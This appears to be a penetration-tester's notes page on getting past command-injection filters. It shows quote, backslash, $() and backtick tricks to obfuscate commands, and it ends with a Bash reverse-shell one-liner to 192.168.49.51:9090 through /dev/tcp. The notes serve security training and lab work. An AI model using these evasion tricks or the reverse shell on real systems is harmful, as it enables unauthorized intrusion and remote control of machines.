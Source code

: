 ## Input Sanitization

* Single or double quotes can be used to obfuscate a command as they are ignored by both Bash and PowerShell. CMD only ignores double quotes. **The quote type cannot be mixed and must always be an even number**.
* In Linux we can use command substitution (`$()` or ` `` `) to inject **empty output** between characters, thereby modifying strings without altering the functional behavior of the payload.

{% tabs %}
{% tab title="Quotes" %}
```bash
# original command
$ whoami
x7331
# using single quotes
$ who'a'mi
x7331
# using double quotes
$ wh"oa"mi
x7331
```
{% endtab %}

{% tab title="Linux-specific" %}
```bash
$ wh$@oami
x7331
$ wh\oami
x7331
$ who$()ami
x7331
$ who``ami
x7331
```
{% endtab %}

{% tab title="CMD-specific" %}
```
$ wh^oami
x7331
```
{% endtab %}
{% endtabs %}

## Input Normalization

We must make sure to handle "bad" characters that might alter a payload’s behavior. We should **enclose such characters in single quotes** to make the target server interpret them as valid data instead of new parameters.

```bash
bash -c 'bash -i >& /dev/tcp/192.168.49.51/9090 0>&1'
```
